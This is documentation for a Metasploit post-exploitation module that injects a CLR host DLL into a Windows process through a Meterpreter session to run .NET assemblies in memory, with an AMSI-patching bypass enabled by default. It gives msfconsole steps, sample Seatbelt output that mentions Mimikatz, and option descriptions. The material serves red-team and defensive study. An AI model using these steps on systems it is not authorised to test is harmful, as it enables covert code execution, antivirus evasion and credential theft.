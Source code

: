 # Execute .Net assembly via Meterpreter session

This module to executing a .NET Assembly from Meterpreter session

It spawn a process (or use an existing process providing pid) and use Reflective dll injection to load HostingCLRx64.dll needed to run .Net assembly
The unmanaged injected dll takes care of verifying if the process has already loaded the clr, and loads it if necessary. The version of the CLR to be loaded is determined by executing the parsing of the assembly provided searching for a known signature. Then run the assembly from memory.
Before loading the assembly in the context of the clr, Amsi is bypassed using the AmsyScanBuffer patching technique (https://rastamouse.me/2018/10/amsiscanbuffer-bypass-part-1/)

You'll find details at [Execute assembly via Meterpreter session](https://b4rtik.blogspot.com/2018/12/execute-assembly-via-meterpreter-session.html)

## Verification Steps

  Example 1 no PID specified:

  1. Start Clone from github SeatBelt or other .Net progect
  2. Buid project with target framework 4.x or 3.5
  2. Start msfconsole
  4. Do: ```use post/windows/manage/execute_assembly```
  5. Do: ```set SESSION sessionid```
  6. Do: ```set ASSEMBLYPATH /your/output/forder```
  7. Do: ```set ASSEMBLY SeatBelt.exe```
  8. Do: ```set ARGUMENTS user```
  9. Do: ```run```
  10. You should get something like that follow

```
msf5 post(windows/manage/execute_assembly) > run

[*] Launching notepad.exe to host CLR...
[+] Process 10628 launched.
[*] Reflectively injecting the Host DLL into 10628..
[*] Injecting Host into 10628...
[*] Host injected. Copy assembly into 10628...
[*] Assembly copied.
[*] Executing...
[*] Start reading output
[+] 
[+] 
[+]                         %&&@@@&&                                                                                  
[+]                         &&&&&&&%%%,                       #&&@@@@@@%%%%%%###############%                         
[+]                         &%&   %&%%                        &////(((&%%%%%#%################//((((###%%%%%%%%%%%%%%%
[+] %%%%%%%%%%%######%%%#%%####%  &%%**#                      @////(((&%%%%%%######################(((((((((((((((((((
[+] #%#%%%%%%%#######%#%%#######  %&%,,,,,,,,,,,,,,,,         @////(((&%%%%%#%#####################(((((((((((((((((((
[+] #%#%%%%%%#####%%#%#%%#######  %%%,,,,,,  ,,.   ,,         @////(((&%%%%%%%######################(#(((#(#((((((((((
[+] #####%%%####################  &%%......  ...   ..         @////(((&%%%%%%%###############%######((#(#(####((((((((
[+] #######%##########%#########  %%%......  ...   ..         @////(((&%%%%%#########################(#(#######((#####
[+] ###%##%%####################  &%%...............          @////(((&%%%%%%%%##############%#######(#########((#####
[+] #####%######################  %%%..                       @////(((&%%%%%%%################                        
[+]                         &%&   %%%%%      Seatbelt         %////(((&%%%%%%%%#############*                         
[+]                         &%%&&&%%%%%        v0.2.0         ,(((&%%%%%%%%%%%%%%%%%,                                 
[+]                          #%%%%##,                                                                                 
.........
.........
.........
[+]   [*] Use the Mimikatz "dpapi::cred" module with appropriate /masterkey to decrypt
[+] 
[+] 
[+] === Checking for RDCMan Settings Files (Current User) ===
[+] 
[+] 
[+] 
[+] [*] Completed Safety Checks in 11 seconds
[+] 
[*] End output.
[+] Killing process 10628
[+] Execution finished.
[*] Post module execution completed
msf5 post(windows/manage/execute_assembly) >
```

  Example 2 PID specified:

  1. Start Clone from github SeatBelt or other .Net progect
  2. Buid project with target framework 4.x or 3.5
  2. Start msfconsole
  4. Do: ```use post/windows/manage/execute_assembly```
  5. Do: ```set SESSION sessionid```
  6. Do: ```set PID 8648```
  7. Do: ```set ASSEMBLYPATH /your/output/forder```
  8. Do: ```set ASSEMBLY SeatBelt.exe```
  9. Do: ```set ARGUMENTS user```
  10. Do: ```run```
  11. You should get something like that follow

```
msf5 post(windows/manage/execute_assembly) > run

[*] Warning: output unavailable
[*] Hooking 8648 to host CLR...
[+] Process 8648 hooked.
[*] Reflectively injecting the Host DLL into 8648..
[*] Injecting Host into 8648...
[*] Host injected. Copy assembly into 8648...
[*] Assembly copied.
[*] Executing...
[+] Execution finished.
[*] Post module execution completed
msf5 post(windows/manage/execute_assembly) >
```
## Options

```
Module options (post/windows/manage/execute_assembly):

   Name          Current Setting  Required  Description
   ----          ---------------  --------  -----------
   AMSIBYPASS    true             yes       Enable Amsi bypass
   ARGUMENTS                      no        Command line arguments
   ASSEMBLY                       yes       Assembly file name
   ASSEMBLYPATH                   no        Assembly directory
   PID           0                no        Pid  to inject
   PROCESS       notepad.exe      no        Process to spawn
   SESSION                        yes       The session to run this module on.
   WAIT          10               no        Time in seconds to wait

```

AMSIBYPASS

Enable or Disable Amsi bypass. This parameter is necessary due to the technique used. It is possible that subsequent updates will make the bypass unstable which could result in a crash. By setting the parameter to false the module continues to work.

ARGUMENTS

Command line arguments. The signature of the Main method must match with the parameters that have been set in the module, for example:

If the property ARGUMENTS is set to "antani sblinda destra" the main method should be "static void main (string [] args)"<br />
If the property ARGUMENTS is set to "" the main method should be "static void main ()"

ASSEMBLY 

Assembly file name. This will be searched in ASSEMBLYPATH

ASSEMBLYPATH

Assembly directory where to serach ASSEMBLY

PID

Pid to inject. If different from 0 the module does not create a new process but uses the existing process identified by the PID parameter.

PROCESS

Process to spawn when PID is equal to 0.

SESSION

The session to run this module on. Must be meterpreter session

WAIT

Time in seconds to wait before starting to read the output.

